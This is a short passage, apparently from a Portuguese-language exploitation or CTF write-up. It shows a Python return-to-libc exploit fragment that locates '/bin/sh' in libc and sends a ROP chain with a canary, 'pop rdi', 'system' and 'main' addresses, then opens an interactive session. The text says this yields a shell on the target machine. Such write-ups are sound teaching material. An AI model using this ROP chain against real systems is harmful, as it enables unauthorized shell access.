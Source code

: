 ```
#strings -a -t x libc/libc6_2.31-0ubuntu9_amd64 | grep "/bin/sh"
binsh = 0x1b75aa + libc_base

payload = CANARY
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(main)

p.send(payload)

t = Telnet()
t.sock = p
t.interact()
```

Ao executar a versão final do exploit, é possível obter o *reverse shell* da máquina alvo, conforme imagem abaixo:
